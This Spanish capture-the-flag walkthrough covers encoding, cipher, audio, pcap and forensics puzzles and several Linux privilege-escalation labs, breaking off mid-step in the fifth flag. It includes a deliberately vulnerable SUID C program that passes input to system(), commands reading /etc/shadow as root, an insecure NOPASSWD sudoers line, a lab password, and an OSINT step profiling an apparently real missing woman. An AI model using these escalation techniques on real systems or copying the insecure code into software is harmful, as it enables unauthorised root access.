🔧 Desde PowerShell (Windows)
Get-FileHash .\menu6.jpg -Algorithm MD5
🌠Desde sitio web online
Para calcular el hash MD5 de una imagen online, puedes utilizar herramientas como:
online-convert.com
hash.online-convert.com
https://hash.online-convert.com/es/generador-md5
https://emn178.github.io/online-tools/md5_checksum.html
Estas herramientas te permiten subir la imagen y generar su hash MD5, que es una cadena única de 32 caracteres hexadecimales.

3. Resultado
El hash MD5 obtenido para menu6.jpg es:
27303a04ee484427ca5b3eb482772f3f
ğŸ Resultado final
Mosca 7 atrapada: '27303a04ee484427ca5b3eb482772f3f'
🧠Razonamiento técnico
Este reto introduce la noción de “huella digital†de archivos.
Refuerza el concepto de unicidad de los archivos a través de su hash.
Enseña cómo verificar la integridad y autenticidad sin abrir el contenido.
ğŸ Mosca 8 – Investigación de Persona Desaparecida
CategorÃa: OSINT / EsteganografÃa / Base64
Nivel: Intermedio-Avanzado
Mosca capturada: Ferriera
🧰 Herramientas necesarias
Decodificador Base64
Buscadores inversos de imagen (Google, TinEye)
Navegador web para investigación
Sentido detective 🕵️‍♂️
🧪 Procedimiento técnico
1. Descifrar la pista codificada
En el código fuente de localización.html encontramos un texto:
<!--
ğŸ”
TGEgREVBIGJ1c2NhIGEgdW5hIGNoaWNhIGRlc2FwYXJlY2lkYS4gTGEgcGFsYWJyYSBxdWUgbGxldmEgdGF0dWFkYSBlbiBlbCBwZWNobyBkZXJlY2hvIGVzIGxhIE1vc2NhIDggICAgIA==
-->
Esta cadena delata que está en formato Base64 por varias razones técnicas muy claras:
🔠¿Cómo se sabe que es Base64?
✅ 1. Conjunto de caracteres restringido
Base64 solo usa 64 caracteres válidos, además del signo = como relleno opcional al final:
A–Z, a–z, 0–9, +, /
Y esta cadena solo contiene:
Letras mayúsculas y minúsculas
Números
El signo = al final (relleno tÃpico de Base64)
✅ 2. Longitud tÃpica (múltiplo de 4)
Las cadenas Base64 siempre tienen una longitud múltiplo de 4 caracteres, porque cada 3 bytes de datos se codifican como 4 caracteres Base64.
Esta cadena tiene 104 caracteres, que es múltiplo de 4.
✅ 3. Uso del signo = al final
En Base64, los signos = se usan como relleno (padding) para alinear los bloques.
El final de esta cadena termina con ==, una pista muy fuerte de codificación Base64.
✅ Conclusión
Sabemos que la cadena está en Base64 por:
| Evidencia | Explicación |
|---|---|
| Solo usa letras, números, +, /, y = | Base64 solo permite ese conjunto |
| Longitud múltiplo de 4 | Requisito del formato Base64 |
| Termina en == | Padding tÃpico de Base64 |
| Al decodificar, es texto legible | Muy tÃpico en mensajes ocultos |
¿Qué es Base64?
La codificación en Base64 es un método que permite representar datos binarios (como imágenes, archivos, etc.) usando solo caracteres de texto ASCII. Se utiliza comúnmente para transmitir datos por medios que solo permiten texto, como correos electrónicos, JSON, o ciertos protocolos de red.
¿Por qué usar Base64?
Muchos sistemas (como el correo electrónico o las URLs) solo permiten caracteres de texto. Si se necesita enviar datos binarios (como una imagen o un archivo PDF), hay que convertir esos datos en una forma segura que pueda viajar sin corromperse: Base64 es una de esas formas.
¿Cómo funciona?
Entrada binaria: Se toma el archivo o cadena original (en binario).
Agrupación: Se divide el flujo binario en grupos de 3 bytes (24 bits).
División en bloques de 6 bits: Cada grupo de 24 bits se divide en 4 grupos de 6 bits.
Conversión: Cada grupo de 6 bits se convierte en un número entre 0 y 63, que luego se traduce a un carácter Base64 usando una tabla estándar.
Relleno (Padding): Si el número total de bytes no es múltiplo de 3, se agregan caracteres = al final para completar la codificación.
Ejemplo simple
Supón que queremos codificar el texto: "Man"
En ASCII: M = 77, a = 97, n = 110
En binario: 01001101 01100001 01101110 → 24 bits
Dividimos en bloques de 6 bits:
010011 010110 000101 101110 → valores decimales: 19, 22, 5, 46
Con la tabla Base64, esto se convierte en:
TWFu
Tabla Base64 estándar
Base64 usa 64 caracteres:
A-Z (26) + a-z (26) + 0-9 (10) + '+' + '/'
Es decir, el conjunto completo es:
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
CaracterÃsticas clave
No es un método de cifrado ni de compresión.
Aumenta el tamaño de los datos en un ~33%.
Se usa en:
Correos electrónicos (MIME)
Codificación de imágenes en HTML (data:image/png;base64,...)
Transmisión de tokens o contraseñas en HTTP (Authorization: Basic)
Ventajas
Compatible con sistemas que solo aceptan texto.
Fácil de codificar/decodificar.
Desventajas
Aumenta el tamaño del archivo.
No es seguro por sà solo: los datos codificados pueden ser fácilmente decodificados.
Si utilizamos cualquier servicio online para descifrarlo veremos el texto descodificado:
https://www.base64encode.org/es/
https://www.convertstring.com/es/EncodeDecode/Base64Decode
<!--
ğŸ”
La DEA busca a una chica desaparecida. La palabra que lleva tatuada en el pecho derecho es la Mosca 8
-->
2. Analizar la imagen del reto
En la carpeta de archivos hay una imagen llamada desaparecida.jpg. Una búsqueda inversa con Google Imágenes revela que se trata de Anastasia Karma Ferriera, una joven desaparecida en el estado de Nuevo México.
3. Investigación OSINT (Open Source Intelligence)
Una búsqueda más exhaustiva de los enlaces e imágenes nos lleva a localizar varias fotos de Anastasia:
En la última foto se aprecia que lleva un tatuaje en el pecho, pero no es posible distinguirlo.
Encontramos varios enlaces informando de su desaparición:
https://missingpersonscenter.org/missing-persons-directory/missing-adults/anastasia-karma-ferriera/
Pero la ubicación del Tattoo ‘Ferriera’ no es la misma en las dos webs que lo mencionan.
Si seguimos investigando nos lleva a los siguientes enlaces donde encontramos la ficha oficial de su desaparición:
Anastasia desapareció en el condado de Bernalillo, en Albuqerque, Nuevo México 87110:
Última ubicación:
Se confirma que el tatuaje en su pecho dice:
Ferriera
Este nombre es el objetivo del reto.
ğŸ Resultado final
Mosca 8 atrapada: 'Ferriera'
🧠Razonamiento técnico
El reto enseña la importancia del análisis de código fuente y la decodificación de mensajes ocultos.
Introduce al jugador a la técnica OSINT, cada vez más usada en ciberseguridad y análisis forense.
También sensibiliza sobre cómo los datos públicos pueden ayudar (o exponer) casos reales.
ğŸ Mosca 9 – Reconocimiento de Tonos DTMF en Audio
CategorÃa: EsteganografÃa auditiva / DTMF /
IngenierÃa inversa
Nivel: Avanzado
Mosca capturada: 378282246310005
🧰 Herramientas necesarias
Generador DTMF (por ejemplo, onlinesound.net/dtmf-generator)
Reproductor de audio (Audacity, VLC, etc.)
Decoder online de DTMF: dtmf.netlify.app
Archivo de audio llamada.wav (simulado para el reto)
📜 Pista inicial
En el código fuente de la página nosotros.html encontramos una pista que dice:
<!--
ğŸ”
Tj MNJ pj nvlxvcajmx dvj yqbcj nv nt jdmqx ttjujmj.fje. Bn pj ujaljmx nt lómqox mn dvj cjarncj mn laémqcx yjaj anjtqija dvj cajvbñnanvlqj ¿Ldát nb nt lómqox mn tj cjarncj mn laémqcx? Nt vúunax lxuytncx mn tj cjarncj nb tj Uxblj 9
-->
Es razonable sospechar que se trata de un cifrado César por varias razones:
🧩 ¿Cómo saber que es un cifrado César?
Estructura gramatical similar al español:
Aunque las palabras no tienen sentido directamente, mantienen una longitud y estructura similar al español.
Por ejemplo: “Tj MNJ pj†parece tener la misma estructura que “El ABC es”.
Distribución de palabras:
El patrón de uso de artÃculos, preposiciones y signos de puntuación es tÃpico del español.
Hay una frase que termina en “¿...?”, tÃpica en preguntas.
No hay signos especiales ni palabras muy largas:
No parece un cifrado complejo (como Vigenère o RSA), sino algo simple y por sustitución.
Es uno de los cifrados más comunes en textos de ejemplo:
El cifrado César es uno de los primeros que se prueban al analizar criptogramas de este tipo.
🛠¿Qué es el cifrado César?
Es un cifrado por sustitución en el que cada letra se reemplaza por otra un número fijo de posiciones más adelante en el alfabeto.
Por ejemplo, con un desplazamiento de +1:
A → B
B → C
C → D
…
Z → A
✅ ¿Cómo confirmar si es un cifrado César?
Para comprobarlo se pueden usar herramientas automáticas o hacerlo manualmente:
Probar desplazamientos del 1 al 25 (un ataque por fuerza bruta).
Leer el resultado de cada uno y ver cuál tiene sentido en español.
Existen herramientas online como:
https://www.dcode.fr/caesar-cipher
El Cifrado de Caesar es uno de los métodos de codificación conocidos más antiguos. Es muy simple - sólo se cambian las posiciones del alfabeto. La transformación se denomina ROTN, donde N es el valor de cambio de posiciones y ROT significa "ROTAR", porque es un cambio cÃclico.
Por ejemplo, ROT2 significa que "a" se vuelve "c", "b" se vuelve "d" y al final "y" se vuelve "a", y "z" se vuelve "b". La cantidad de transformaciones posibles depende de la longitud del alfabeto. Debido a eso, es un método muy débil, ya que puedes revisar todas las combinaciones posibles de manera muy rápida.
En este caso se ha aplicado ROT9
<!--
ğŸ”
La DEA ha encontrado una pista en el audio llamada.wav. Se ha marcado el código de una tarjeta de crédito para realizar una transferencia ¿Cuál es el código de la tarjeta de crédito? El número completo de la tarjeta es la Mosca 9
-->
En el código fuente de nosotros.html, tras aplicar un cifrado César con ROT9, se revela este mensaje:
La DEA ha encontrado una pista en el audio llamada.wav. Se ha marcado el código de una tarjeta de crédito para realizar una transferencia. ¿Cuál es el código de la tarjeta de crédito? El número completo de la tarjeta es la Mosca 9.
🧪 Procedimiento técnico
1. Reproducir y analizar llamada.wav
En la carpeta “archivos†podemos encontrar el archivo llamada.wav.
Este archivo simula el sonido de una tarjeta de crédito digitada por tonos telefónicos (DTMF). Los tonos DTMF son combinaciones de frecuencias que representan los dÃgitos del 0 al 9.
Lo ideal es usar tonos DTMF (Dual-Tone Multi-Frequency). Estos son los tonos que usan los teléfonos al marcar números, y son fácilmente reconocibles por sistemas automáticos y humanos.
1. Tipo de tono
• Se ha usado DTMF (Dual Tone Multi-Frequency). Es el tipo correcto de señal para simular la pulsación de teclas numéricas en un teléfono.
2. Duración de cada tono
• Se recomienda usar una duración entre 100 y 250 ms por tono para que sea claro y reconocible, pero no muy lento.
Ejemplo común: Tono: 200 ms y Pausa: 100 ms.
3. Contenido simulado
Una tarjeta de crédito tiene 16 dÃgitos, separados normalmente en grupos de 4. En este caso tenemos 15 dÃgitos.
Se ha usado el código de una tarjeta de Américan express.
¿Cómo sabemos que es una Américan Express?:
Longitud: 15 dÃgitos (las AmEx tienen 15 dÃgitos, no 16).
Empieza por 34 o 37 (en este caso, 37), como todas las tarjetas AmEx.
Formato tÃpico: 4-6-5 (como en el ejemplo).
Este número pasa la verificación de Luhn, que es el algoritmo que valida la estructura de las tarjetas, pero no es un número real ni está asociado a ninguna cuenta.
Usamos el sitio dtmf.netlify.app para cargar el audio y obtener la secuencia numérica:
2. Resultado del análisis
El decodificador devuelve esta secuencia:
378282246310005
3782 822463 10005
Este número tiene la estructura de una tarjeta de crédito American Express (formato 4-6-5). Aunque no es real, pasa la validación por el algoritmo de Luhn.
ğŸ Resultado final
Mosca 9 atrapada: '378282246310005'
🧠Razonamiento técnico
Este reto introduce técnicas de análisis de señal y espectrograma.
Enseña cómo se pueden ocultar datos en audio utilizando estándares como DTMF.
Combina seguridad, cripto, y audio en una experiencia completa.
ğŸ Mosca 10 – Reconstrucción de JPEG desde tráfico HTTP
CategorÃa: Análisis de red / Forense /
EsteganografÃa
Nivel: Avanzado
Mosca capturada: WALTER_WHITE
🧰 Herramientas necesarias
Wireshark
Servidor web local (python -m http.server)
Fichero de captura: http_jpeg.pcap
📜 Pista inicial
En el código fuente de la página nosotros.html encontramos una pista que dice:
<!--
ğŸ”
Oz WVZ sz vnxlngizwl fnz ulgl xlñl krhgz. Oz xzkgfiz wv giáurxl wv ivw sggk_qkvt vhxlnwv oz Ñlhxz 10
-->
El cifrado Atbash es menos común que el César, pero tiene caracterÃsticas bastante distintivas que pueden hacernos sospechar que un texto está cifrado con este sistema.
🔠¿Qué es el cifrado Atbash?
El cifrado Atbash es un cifrado monoalfabético por sustitución donde cada letra se reemplaza por su "opuesta" en el alfabeto.
En el alfabeto latino:
A ↔︎ Z
B ↔︎ Y
C ↔︎ X
D ↔︎ W
...
M ↔︎ N
Es un tipo de cifrado simétrico y sin clave, ya que codificar y decodificar es el mismo proceso.
🧠¿Qué hace sospechar que este texto esté cifrado con Atbash?
Patrón de letras poco frecuentes:
El texto contiene muchas letras como x, z, v, w, g, k, que no son tan comunes en español.
En Atbash, como cambia una letra por su opuesta, las letras más frecuentes (como A, E, O) se convierten en letras menos frecuentes (Z, V, L, etc.), alterando notablemente la distribución habitual de letras.
SimetrÃa visual:
Las letras en palabras parecen inversas al patrón tÃpico del español.
Si lo lees sabiendo que Z=A, Y=B, etc., comienzas a ver posibles palabras escondidas.
Pocas vocales comunes:
En español predominan vocales como a, e, o. Este texto tiene más i, u, z, x, lo que hace pensar en una inversión.
Frases que podrÃan empezar con "El" → "Oz":
Si ves "Oz WVZ sz…", puedes pensar si "Oz" = "El".
En Atbash:
O → L
Z → A
→ “Oz†= “El”
Confirmado: SÃ, es Atbash.
✅ En resumen: ¿Por qué sospechar de Atbash?
Uso inusual de letras poco frecuentes.
Pocas vocales comunes del español.
Frases con apariencia de espejo o inversión.
SimetrÃa y sustitución caracterÃstica.
Al invertir con Atbash, empiezan a aparecer palabras coherentes.
El Cifrado Atbash es un método de cifrado de sustitución monoalfabética que funciona invirtiendo el alfabeto. Esto significa que la primera letra del alfabeto se reemplaza por la última, la segunda por la penúltima, y asà sucesivamente.
¿Cómo Funciona?
En el cifrado Atbash, cada letra se mapea a su "opuesto" en el alfabeto. Aquà tienes cómo se verÃa para el alfabeto latino:
A se convierte en Z
B se convierte en Y
C se convierte en X
...
X se convierte en C
Y se convierte en B
Z se convierte en A
Para aplicar el cifrado, simplemente sustituyes cada letra del mensaje original por su equivalente Atbash. Los números y los caracteres que no son letras suelen dejarse sin cambios.
CaracterÃsticas Clave
Autoinverso: Una caracterÃstica única del Atbash es que es autoinverso. Esto significa que cifrar un mensaje dos veces con Atbash te devuelve el mensaje original. Si A se convierte en Z, y luego Z se convierte en A, el proceso se revierte perfectamente.
Simplicidad: Es uno de los cifrados más simples y antiguos conocidos.
OrÃgenes: Tiene sus raÃces en el hebreo antiguo. El nombre "Atbash" proviene de las dos primeras letras hebreas (Aleph, Tav) y las dos últimas (Bet, Shin), que son las que se intercambian.
Ejemplo
Si quieres cifrar la palabra "HOLA" usando Atbash:
H se convierte en S (H es la 8ª letra, S es la 8ª desde el final)
se convierte en L (O es la 15ª letra, L es la 15ª desde el final)
L se convierte en O
A se convierte en Z
AsÃ, "HOLA" cifrado con Atbash serÃa "SLOZ".
Usamos un servicio online para descifrarlo:
https://ciphersonline.com/es/cifrado-atbash
Tras aplicar cifrado Atbash, aparece el siguiente mensaje:
<!--
ğŸ”
La DEA ha encontrado una foto como pista. La captura de tráfico de red http_jpeg esconde la Mosca 10
-->
Esto nos lleva al archivo de captura http_jpeg.pcap que se encuentra en la carpeta archivos.
🧪 Procedimiento técnico
1. ¿Cómo se ha montado el entorno de captura
En el reto se simula la transferencia de una imagen .jpg mediante tráfico HTTP. Para recrearlo:
cd carpeta_con_imagen
python -m http.server 8000
Accedemos a http://localhost:8000/imagen.jpg desde el navegador mientras Wireshark captura.
Es una captura de wireshark que supone un ejemplo de cómo volver a montar una secuencia HTTP y extraer y guardar en un archivo una imagen de JPEG desde el interior de un HTTP PDU.
2. Analizar el tráfico en Wireshark
En Wireshark:
Filtramos con http o tcp.port == 8000
Buscamos la respuesta HTTP 200 OK que contiene el JPEG
Localizamos el paquete correspondiente (por ejemplo, lÃnea 347 del http_jpeg.pcap)

3. Exportar la imagen reconstruida
A continuación, hacemos clic derecho en el protocolo JPG y seleccionamos "Exportar bytes de paquete" y guardarlo en un archivo con el nombre que queramos y la extensión jpeg.
Export Packet Bytes → Guardar como imagen.jpeg
Esto crea un archivo JPEG que puede visualizarse normalmente.
Ahora puedes abrir la imagen para visualizarla
4. Verificar el contenido oculto
Al abrir la imagen exportada, se revela una imagen con el texto: LA MOSCA 10 ES: ‘WALTER_WHITE’.
ğŸ Resultado final
Mosca 10 atrapada: 'WALTER_WHITE'
🧠Razonamiento técnico
El reto enseña cómo reconstruir archivos desde flujos de red usando herramientas forenses reales.
Simula un entorno de captura HTTP de forma controlada.
Refuerza habilidades en reconocimiento de protocolo, filtrado de tráfico y exportación de datos binarios.
Resolución de Banderas
ğŸ Bandera 1 – Escalada de Privilegios mediante configuración vulnerable en /etc/sudoers
CategorÃa: Privilege Escalation
Nivel: Medio
Flag: d41d8cd98f00b204e9800998ecf8427e
Usuario involucrado: chow
Contraseña: Ch0w$up1
🔠Objetivo del reto
El jugador debe identificar una configuración insegura en el sistema que permite al usuario chow ejecutar comandos como root sin necesidad de introducir la contraseña. Esto le permitirá acceder a un archivo protegido por root donde se encuentra la bandera.
⚙️ Preparación del entorno realizada
El entorno incluye los siguientes pasos realizados:
Creación de usuario vulnerable:
sudo useradd -m chow
echo 'chow:Ch0w$up1' | sudo chpasswd

Modificación del archivo /etc/sudoers usando visudo:
chow ALL=(ALL) NOPASSWD:ALL
Esto otorga permisos de superusuario a chow sin necesidad de contraseña.
Se han eliminado privilegios innecesarios de chow.
📠Bandera escondida
La bandera se encuentra en:
/root/bandera1.txt
Y su contenido es:
FLAG1{d41d8cd98f00b204e9800998ecf8427e}
Este archivo solo puede ser leÃdo por el usuario root.
🧪 Pasos para capturar la bandera
1️⃣ Conectarse al usuario chow
Usaremos la contraseña de chow encontrada en la fase de reconocimiento.
Conexión SSH usando la contraseña de chow
Ejecuta el cliente SSH:
ssh chow@192.168.1.44
Cuando te pida la contraseña, introduce:
Ch0w$up1
Verifica que has entrado como chow:
id
# uid=1001(chow) gid=1001(chow) grupos=1001(chow)
2️⃣ Escalada a root aprovechando NOPASSWD
Comprueba tus privilegios sudo:
sudo -l
# (ALL) NOPASSWD: ALL
Consigue shell root:
sudo su –
✅ ¡Tienes acceso!
3️⃣ Leer la bandera como superusuario
sudo cat /root/bandera1.txt
Salida esperada:
FLAG1{d41d8cd98f00b204e9800998ecf8427e}
🧠Razonamiento técnico
El jugador debe identificar que el archivo contraseña.txt es un señuelo.
Con sudo -l, puede descubrir que tiene acceso total sin contraseña.
La técnica explotada es una escalada horizontal que se convierte en vertical gracias al mal uso de NOPASSWD.
ğŸ Resultado final
Bandera 1 atrapada: 'd41d8cd98f00b204e9800998ecf8427e'
ğŸ Bandera 2 – Acceso Anónimo a Servidor FTP con Archivos Ocultos
CategorÃa: Red / Forense
Nivel: Básico - Medio
Flag: pizza_en_el_tejado
Usuario involucrado: Acceso anónimo al servidor FTP
🔠Objetivo del reto
El jugador debe descubrir un servidor FTP mal configurado que permite conexión anónima y localizar un archivo .flag escondido en una carpeta oculta del sistema. La bandera está en texto plano y se revela tras conectarse correctamente y enumerar los contenidos ocultos.
⚙️ Entorno técnico preparado
El entorno está sobre Ubuntu Server 14.04.6, y tiene las siguientes configuraciones realizadas:
Paquete instalado:
sudo apt-get install vsftpd
Configuración del archivo /etc/vsftpd.conf:
anonymous_enable=YES
anon_root=/var/ftp
Carpeta oculta y bandera creadas:
sudo mkdir -p /var/ftp/.hidden
echo "FLAG2{pizza_en_el_tejado}" | sudo tee /var/ftp/.hidden/bandera2.txt > /dev/null
Reinicio del servicio:
sudo service vsftpd restart
🧪 Pasos para capturar la bandera
1️⃣ Escaneo del servicio FTP
El jugador puede usar nmap para descubrir el puerto 21 abierto:
nmap -p 21 192.168.1.44
Verificará que el servicio FTP está activo.
2️⃣ Conexión al servidor como usuario anónimo
Usando el cliente FTP en terminal:
ftp <IP_del_servidor>
Al solicitar usuario, se puede ingresar:
Name (<IP>:user): anonymous
Password: (vacÃo o cualquier texto)
3️⃣ Enumerar archivos ocultos
Una vez dentro del FTP:
cd .hidden
ls -la
âš ï¸ En Linux, los archivos y carpetas ocultos normalmente tienen un punto (.) al inicio de su nombre. Para verlos desde la terminal, puedes usar el comando ls con la opción -a.
🗂️ Comando útil para listar todo, incluidos ocultos
ls -la /var/ftp
Esto muestra:
-l: listado detallado con permisos, propietario, tamaño, etc.
-a: incluye archivos ocultos (los que comienzan con .)
4️⃣ Leer el contenido del archivo
Descargamos el fichero con la bandera a la máquina de Kali con:
get bandera2.txt
Salimos del ftp con:
bye
Y mostramos el contenido del fichero:
cat bandera2.txt
Salida esperada:
FLAG2{pizza_en_el_tejado}
🧠Razonamiento técnico
El reto introduce al jugador al concepto de acceso anónimo inseguro.
Refuerza buenas prácticas de enumeración (ls -la) para archivos ocultos.
Enseña cómo aprovechar configuraciones FTP mal defendidas en sistemas legacy.
ğŸ Resultado final
Bandera 2 atrapada: 'pizza_en_el_tejado'
ğŸ Bandera 3 – Binario SUID Vulnerable a Comandos Arbitrarios
CategorÃa: Pwn / Privilege Escalation
Nivel: Intermedio
Flag: I_am_the_one_who_knocks
Usuarios involucrados:
Usuario base: hector / Contraseña: XXXXXXXX
Usuario root (indirecto): fring
🔠Objetivo del reto
El jugador inicia como usuario chow, que parece inofensivo. Su misión es descubrir un binario con permisos SUID, en el directorio de hector, que permite ejecutar comandos arbitrarios con privilegios de root y asà acceder al archivo protegido con la bandera.
🧠¿Qué es un binario con permisos SUID?
SUID (Set User ID): Es un permiso especial en Linux que, cuando se aplica a un archivo ejecutable, hace que ese archivo se ejecute con los privilegios del dueño del archivo (normalmente root).
Eso significa que si un usuario normal ejecuta un binario con SUID y el binario pertenece a root, el binario se ejecutará como si fuera root.
⚙️ Entorno técnico preparado
Crear un usuario como hector con mÃnimos privilegios es una muy buena práctica para simular un entorno de escalada de privilegios o simplemente para limitar el acceso de forma segura:
Usuario hector creado sin privilegios:
sudo useradd -m hector
echo 'hector:XXXXXXXX' | sudo chpasswd
Binario vulnerable creado en /home/hector/:
Código fuente (suid_vuln.c):
#include <stdio.h>
#include <stdlib.h>
int main() {
char comando[100];
printf("Introduce el comando:\n");
fgets(comando, sizeof(comando), stdin);
system(comando);
return 0;
}

{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
Compilado como ejecutable:
gcc suid_vuln.c -o suid_vuln

Permisos peligrosos asignados:
Asignado como propiedad de root:
sudo chown root:root suid_vuln
Activado permiso SUID:
sudo chmod +s suid_vuln
🧪 Probar que funciona
Como el usuario hector, ejecuta el binario:
./suid_vuln
Y en el prompt, introduce algo como:
whoami
Si te devuelve root, entonces… ¡has logrado escalar privilegios! 🚀
Ejecuta ahora:
./suid_vuln
Cuando te pida un comando, prueba algo potente como:
cat /etc/shadow
🧪 ¿Qué está pasando técnicamente?
Cuando hector ejecuta ./suid_vuln, el sistema le otorga temporalmente los permisos del propietario del binario, que en este caso es root.
El permiso SUID (chmod +s) permite que el binario se ejecute con los privilegios de su propietario, no de quien lo lanza.
Por eso, cat /etc/shadow se ejecuta como si lo hiciera root, aunque estés logueado como hector.
Bandera escondida como archivo solo accesible por root:
echo "FLAG3{I_am_the_one_who_knocks}" | sudo tee /etc/suid-flags/bandera3.txt > /dev/null
chmod 600 /etc/suid-flags/bandera3.txt
🧪 Pasos para capturar la bandera
1️⃣ Acceder como usuario chow
Ejecuta el cliente SSH:
ssh chow@192.168.1.44
Cuando te pida la contraseña, introduce
Ch0w$up1
2️⃣ Localizar y ejecutar el binario SUID
Nos dirigimos al directorio de hector:
cd /home/hector
El nombre del archivo habla por sà solo…
Ejecutamos suid_vuln
./suid_vuln
Cuando se muestre:
Introduce un comando:
Escribe:
whoami
Buscamos la bandera en el directorio /etc/:
El directorio que buscamos tiene toda la pinta de ser suid-flags. Pero si pruebas a ir al directorio verás que no puedes:
Tener un binario SUID que te eleva a root no significa que automáticamente todo lo que hagas fuera de ese binario tenga privilegios de root.
En nuestro caso:
Cuando entramos por SSH como chow, nuestra shell sigue teniendo los permisos de chow.
Al ejecutar ./suid_vuln, sólo el proceso suid_vuln corre como root.
En cuanto sales de ese programa y vuelves a tu shell normal, pierdes esos privilegios.
Por eso, ahora que hemos visto que el directorio que nos interesa es /etc/suid-flags volvemos a ejecutar el binario para poder listar el contenido:
Dentro de suid-flags encontramos el archivo bandera3.txt
Y por lo explicado anteriormente vamos a necesitar volver a ejecutar ./suid_vuln para leer la bandera:
cat /etc/suid-flags/bandera3.txt
✅ El binario lo ejecutará como root gracias al permiso SUID.
3️⃣ Resultado esperado
FLAG3{I_am_the_one_who_knocks}
🧠Razonamiento técnico
El binario vulnerable permite al jugador abusar de system() sin validación.
Gracias al SUID, el comando se ejecuta con privilegios de root.
El reto enseña los riesgos de compilar binarios sin control y asignarles permisos inseguros.
📌 Tip adicional
El jugador puede verificar los permisos del binario con:
ls -l suid_vuln
Verá algo como:
-rwsr-xr-x 1 root root ...
La s en el lugar de ejecución (rws) confirma el flag SUID activo.
ğŸ Resultado final
Bandera 3 atrapada: 'I_am_the_one_who_knocks'
ğŸ Bandera 4 – Forense de Archivos Sin Extensión
CategorÃa: Forense / File Recovery / Magic Number
Analysis
Nivel: Intermedio
Flag: e4d909c290d0fb1ca068ffaddf22cbd0
Usuario involucrado: mike
Contraseña: XXXXXXXX
Carpeta relevante: /home/mike/Lavanderia
🯠Objetivo del reto
El jugador debe identificar entre 16 archivos sin extensión cuál contiene la bandera escondida. El archivo fue preparado para ocultar su contenido mediante texto blanco sobre fondo blanco en un documento tipo PDF.
📦 Contenido de la carpeta Lavanderia
Archivos sin extensión y sin nombres evidentes. Originalmente estos tenÃan formatos como:
.docx, .xlsx, .eml, .json, .ico, .svg, .xcf, .jpeg, .pdf, .mp3, .mp4, .iso, .db, .torrent, etc.
Pero han sido renombrados con una serie numérica y sin extensión, para obligar al jugador a descubrir su verdadero tipo.
Los archivos originales están formados por:
Un archivo .db (base de datos SQLite) con una tabla ficticia llamada pagos, que incluye registros:
lavanderia_operaciones.db
Puedes abrirlo con herramientas como:
DB Browser for SQLite (GUI)
LÃnea de comandos: sqlite3 lavanderia_operaciones.db
usar Python, SQLiteStudio, etc.
Un archivo .json, que representa un registro de transacciones ficticias más una sección de "canal de comunicación".
Un archivo .eml con un mensaje ficticio entre Lydia Rodarte-Quayle y Mike Ehrmantraut
Un fichero Excel que representa un libro de cuentas con pagos, incluyendo a Lydia Rodarte-Quayle
Un documento tipo contrato que está a nombre de Mike Ehrmantraut, y hace referencia a una lavanderÃa propiedad de Gustavo Fring,
Un archivo pdf con la ficha de la chica desaparecida.
Un mp3 con sintonÃa intro BB
Un mp4 de la escena Cocinar es un arte
Un svg con el logo de los pollos
Un archivo ico de Heisenberg
Una imagen jpeg con la foto de la caravana
Un archivo Torrent de webarchive con los mejores momentos de la temporada 2
Una imagen iso de Super Grub2 Disk que pesa 23,7mb
Y un fichero pdf con la bandera 4 pero escrito en texto de color blanco:
Bandera 4: ‘e4d909c290d0fb1ca068ffaddf22cbd0’
Se les ha cambiado el nombre por usa serie numerada:
Y se les ha borrado la extensión:
🧪 Pasos para capturar la bandera
Conexión SSH usando la cuenta de chow
Ejecuta el cliente SSH:
ssh chow@192.168.1.44
Cuando te pida la contraseña, introduce
Ch0w$up1
Nos desplazamos has el usuario Mike y vemos que hay una carpeta de nombre LavanderÃa con una serie de archivos numerados consecutivos y sin extensión:
1️⃣ Identificar los tipos de archivo
Desde el terminal, utilizar:
cd /home/mike/Lavanderia
file *
Esto dará información como:
archivo01: ISO 9660 CD-ROM filesystem data ...
archivo02: JPEG image data ...
archivo03: PDF document ...
...
Para análisis más detallado:
binwalk archivo03
trid archivo03
xxd archivo03 | head
2️⃣ Localizar el archivo tipo PDF
Filtrar con:
file * | grep PDF
Esto revelará los archivos de extensión PDF que hay en la carpeta. Aparecen dos y uno de ellos es el archivo que contiene la bandera.
3️⃣ Abrir el PDF oculto
Como está camuflado con texto blanco, se recomienda abrirlo con un lector PDF visual (Evince, Okular, PDF Studio) y seleccionar todo el texto.
Lo que vamos a hacer es enviarnos esos dos ficheros PDF a nuestra máquina de Kali para analizarlos:
scp chow@192.168.1.44:/home/mike/Lavanderia/002 .
scp chow@192.168.1.44:/home/mike/Lavanderia/007 .
Analizamos el contenido de los archivos:
El archivo 007 contiene una ficha de la chica desaparecida y el 002 parece en blanco:
Pero al seleccionar con el ratón el posible contenido del fichero aparece la bandera:
4️⃣ Resultado esperado
FLAG4{e4d909c290d0fb1ca068ffaddf22cbd0}
🧠Razonamiento técnico
Se explora la técnica de encubrimiento visual (white-on-white text).
Introduce al jugador en herramientas de análisis de archivo por “firma mágica†o magic number.
Refuerza habilidades en reconstrucción de extensión sin depender de nombres.
🧰 Herramientas clave recomendadas
| Herramienta | Propósito |
|---|---|
| file | Identificar tipo de archivo |
| binwalk | Detectar encabezado embebido |
| trid | Clasificar por firma binaria |
| strings | Buscar flag como texto plano |
| pdftotext | Extraer contenido visible del PDF |
| xxd / hexedit | Ver el encabezado en hexadecimal |
ğŸ Resultado final
Bandera 4 atrapada: 'e4d909c290d0fb1ca068ffaddf22cbd0'
ğŸ Bandera 5 – DNS Malicioso en Tráfico .pcap
CategorÃa: Red / Forense / OSINT
Nivel: Intermedio
Flag: Yo_soy_el_peligro
Usuario involucrado: lydia
Contraseña: XXXXXXXX
Archivo clave: DeNadieSospeches.pcap
📠Ruta esperada: /home/lydia/DeNadieSospeches.pcap
🯠Objetivo del reto
El jugador debe analizar un archivo .pcap que contiene consultas DNS, una de las cuales está manipulada para esconder la bandera en el nombre de dominio solicitado. Solo realizando un análisis profundo podrá encontrar la bandera camuflada.
🔧 Entorno técnico simulado
Esta captura se ha generado usando Scapy, con ruido DNS incluido para dificultar la localización:
bandera = "Bandera5:Yo_soy_el_peligro"
dominio = f"{bandera}.lospolloshermanos.local"
Esto queda embebido como una solicitud DNS en un paquete legÃtimo, junto a muchas consultas comunes como google.com, ftp.internal, breakingbad.tv, etc.
🧪 Pasos para capturar la bandera
1️⃣ Conexión SSH usando la cuenta de chow
Ejecuta el cliente SSH:
ssh chow@192.168.1.44
Cuando te pida la contraseña, introduce
